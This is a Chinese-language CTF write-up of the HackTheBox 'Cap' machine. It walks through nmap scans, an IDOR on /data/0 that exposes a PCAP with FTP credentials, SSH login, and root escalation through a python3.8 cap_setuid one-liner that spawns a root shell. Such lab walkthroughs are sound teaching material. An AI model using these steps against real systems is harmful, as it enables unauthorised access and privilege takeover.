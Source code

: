 # HackTheBox 详细报道:Cap

> 原文：<https://infosecwriteups.com/hackthebox-writeup-cap-43c7b6bcb32a?source=collection_archive---------3----------------------->

![](img/b96d87a061a9026f04df2fbd58b975db.png)

这是一个由易到难的 Linux 盒子，非常简单，对于新手来说是一个很好的入门挑战。为了解决机器，攻击者需要执行基本的扫描和枚举，以便在机器上获得立足点并获得用户标志。向 root 用户提升权限也是一个相对简单的过程，并且需要对 Linux 系统进行基本的枚举，以查找易受攻击的二进制文件。

# 列举

我开始枚举目标机器，用 **NMAP** 执行快速扫描，以识别任何打开的端口:

```
nmap -T5 --open -sS -vvv --min-rate=300 --max-retries=3 -p- -oN all-ports-nmap-report 10.10.10.245PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

扫描发现三个端口打开(即端口 21、22 和 80)。接下来，我使用 NMAP 来识别每个端口上运行的服务，并使用通用 NSE 脚本来查找我可以利用的任何常见漏洞:

```
nmap -sV -sC -Pn -v -p 21,22,80 -oN nmap-report 10.10.10.245PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Tue, 08 Jun 2021 18:46:17 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Tue, 08 Jun 2021 18:46:11 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Tue, 08 Jun 2021 18:46:11 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: OPTIONS, GET, HEAD
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD
|_http-server-header: gunicorn
|_http-title: Security Dashboard
```

我可以看到端口 80 有很多输出。我认为我有足够的信息继续前进，并开始检查托管在端口 80 上的网站。

# HTTP —端口 80 分析

导航到[*http://10 . 10 . 10 . 245/*](http://10.10.10.245/)*，我看到一个安全控制面板:*

*![](img/b5ccdab50d6015f0733564553a370ca2.png)*

*80 端口网站*

*通过查看不同的菜单项，我可以看到诸如目标机器 IP 配置详细信息和机器当前网络状态等信息。该网站还提供下载 PCAP 文件的功能，该文件可以作为网络流量的安全快照。*

*![](img/47313713ef26e50d01ab630f824a2380.png)*

*PCAP 9*

*我可以在网络浏览器的 URL 中看到，有一个名为 **/data** 的子目录，当前显示的 PCAP 是 9 号。我决定尝试通过输入不同的值来找到更早的 PCAP:*

```
*[*http://10.10.10.245/*](http://10.10.10.245/)data/0*
```

*我可以看到这个工作，我得到了一个新的 PCAP 文件，可供下载。*

*![](img/630443b43bc62d60d537beb96a1e4307.png)*

*PCAP 0*

*我下载了 id 0 的 PCAP，并用 Wireshark**检查了它。通过查看数据包捕获，我能够找到 FTP 登录的凭证:***

*![](img/e1c86796c1e4c9d982d0cc889070dd4e.png)*

*FTP 凭据*

# *FTP —端口 21 分析*

*使用上面找到的凭证，我登录到 FTP 并检索用户标志:*

```
*$ ftp 10.10.10.245ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 1001     1001         4096 Jun 12 08:37 snap
drwxrwxr-x    2 1001     1001         4096 Jun 12 08:55 temp
-r--------    1 1001     1001           33 Jun 12 08:32 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for user.txt (33 bytes).
226 Transfer complete.
33 bytes received in 0.00 secs (96.4867 kB/s)$ cat user.txt 
28e72d34119f0e........*
```

*因为我有了用户 **nathan** 的凭证，所以我决定尝试通过 SSH 端口 22 登录，以获得一个合适的 shell。*

```
*$ ssh nathan@10.10.10.245
nathan@10.10.10.245's password:nathan@cap:~$*
```

# *权限提升— Linux 功能*

*为了将权限提升到 root，我决定使用 **linpeas.sh** 来枚举目标机器。浏览 linpeas.sh 提供的输出，我在 Capabilities 部分看到二进制文件`/usr/bin/python3.8`容易受到特权提升的攻击。*

```
*[+] Capabilities

/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep*
```

> ***Linux 功能**为进程提供了可用根特权的子集。当一个进程/程序需要被分配更多的权限来完成它的任务时，比如打开一个网络套接字，这是很有用的。当您希望在执行特权操作之后(例如，在设置 chroot 并绑定到套接字之后)限制自己的进程时，功能非常有用。但是，通过向它们传递恶意命令或参数，然后以根用户身份运行，就可以攻击它们。*

*如果您想了解更多关于 Linux 功能以及如何利用它们的信息，下面的链接很有用:*

*[](https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities) [## Linux 权限提升

### 你每天都使用黑客技巧吗？你觉得这本书很有趣吗？你愿意吗？这样我们就可以花更多的时间在这上面…

book.hacktricks.xyz](https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities) 

我能够利用二进制文件`/usr/bin/python3.8`将我的权限提升到 root，并获得 root 标志:

```
$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash");'root@cap:~# cat /root/root.txt 
681839304b419da.........
```

# 最后的想法

总的来说，我发现这台机器非常简单，是让初学者轻松进入 HackTheBox 平台的一种方式。该机器向攻击者介绍核心原则(即枚举、web 分析、权限提升等)。)的解决方案，并帮助开发解决挑战的关键技能。谢谢你一直读到最后，祝你黑客快乐😄！*
